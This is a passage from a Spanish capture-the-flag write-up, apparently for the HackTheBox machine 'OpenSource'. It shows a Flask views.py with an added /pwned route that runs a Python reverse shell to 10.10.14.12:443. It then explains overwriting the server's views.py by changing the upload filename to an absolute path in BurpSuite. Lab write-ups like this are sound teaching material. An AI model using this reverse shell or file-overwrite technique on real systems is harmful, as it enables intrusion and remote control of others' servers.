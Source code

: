 ```python
@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route('/pwned')
def pwned():
    os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
```

De esta forma, cuando accedamos a **http://10.10.11.164/pwned**, el sistema nos enviará una **reverse shell** a la ip **10.10.14.12** por el puerto **443**.

Ahora para subir el archivo, deberemos interceptar la petición con **BurpSuite** y cambiar el campo *filename* de **views.py** a **/app/app/views.py**. De esta manera, ***os.path.join()*** debería de guardar el archivo en **/app/app/views.py** y, por consiguiente, sobrescribir el *views.py* antiguo de la víctima. En la siguiente imagen podemos ver el campo **filename** ya cambiado.

<img src="/photos/2022-10-08-OpenSource-WriteUp/burp.png" alt="drawing"  />  
